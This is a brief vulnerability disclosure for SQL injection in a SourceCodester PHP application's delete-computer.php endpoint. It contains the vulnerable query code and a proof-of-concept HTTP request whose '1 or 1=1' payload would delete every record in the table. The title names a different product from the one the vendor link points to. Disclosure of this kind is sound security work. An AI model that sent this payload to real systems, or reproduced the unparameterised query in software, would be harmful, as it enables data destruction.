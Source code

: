 # SOURCECODESTER / Barangay Population System - delete-computer.php SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17165/computer-inventory-system-using-php-and-mysql-source-code.html
> 
## Affected Component
> /endpoint/delete-computer.php

## Code
```php
        $query = "DELETE FROM tbl_computer WHERE tbl_computer_id = '$computer'";

        $stmt = $conn->prepare($query);

        $query_execute = $stmt->execute();
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /endpoint/delete-computer.php?computer=1'+or+1%3d1+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot
